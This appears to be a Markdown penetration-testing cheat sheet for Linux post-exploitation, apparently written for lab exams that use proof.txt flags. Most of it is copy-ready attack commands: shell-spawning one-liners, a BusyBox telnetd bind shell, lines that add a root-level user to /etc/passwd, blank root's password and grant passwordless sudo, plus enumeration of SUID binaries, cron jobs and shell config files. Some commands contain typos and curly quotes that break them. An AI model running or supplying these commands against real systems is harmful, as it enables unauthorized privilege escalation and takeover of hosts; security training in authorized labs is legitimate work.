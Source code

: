 - [Enumeration](#enumeration)
  * [Spawning TTY Shell](#spawning-tty-shell)
  * [Manual Enumeraiton](#manual-enumeration)
  * [Getting Proof](#getting-proof)

## Enumeration

### Spawning TTY Shell

After getting intial shell, create TTY shell:

Python:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Bash:
```
echo os.system('/bin/bash')
/bin/sh -i
```

Perl:
```
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

Ruby console:
```
 exec "/bin/sh"
```

Lua console:
```
os.execute('/bin/sh')
```

Vi:
```
:!bash
:set shell=/bin/bash:shell
```
BusyBox:
```
/bin/busybox telnetd -|/bin/sh -p9999
```

Set PATH and TERM if they are missing (also to acsses other bins):

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export TERM=xterm
export SHELL=bash
``` 

### Manual Enumeration

Check for sudo allowance:

```
sudo su -
sudo -l
```

Is /etc/shadow is world-writable (ls -la /etc/shadow == -rwxrwxrwx) ?

1) Create our password:
```
perl -le ‘print crypt(“Password@973″,”addedsalt”)’
```
2) Append our new user to the /etc/shadow file:

```
echo "hacker:<our_generated_password>:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd
```

OR reset root pasword using this trick (may be unstable):

```
echo 'root::0:0:root:/root:/bin/bash' > /etc/passwd; su
```

Can we add user with no password to /etc/sudoers file?

```
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

What process are running under root?

```
ps aux | grep root
```

What SUID / GUID binaris are available?

```
#Find SUID
find / -perm -u=s -type f 2>/dev/null

#Find GUID
find / -perm -g=s -type f 2>/dev/null
```

Abusing sudo-rights using SUID/GUIDS or any 3rd-party utility could be found using https://gtfobins.github.io/

Finding world readable/writable directories:

```
 echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;
```

Check for Environment variables:
```
cat /etc/profile; cat /etc/bashrc; cat ~/.bash_profile; cat ~/.bashrc; cat ~/.bash_logout; env; set
```

Check what exported path are availble:

```
export -p
```

Check background process (cronjobs):

```
crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny
```

### Getting Proof

Getting final Proof:

```
echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "
```
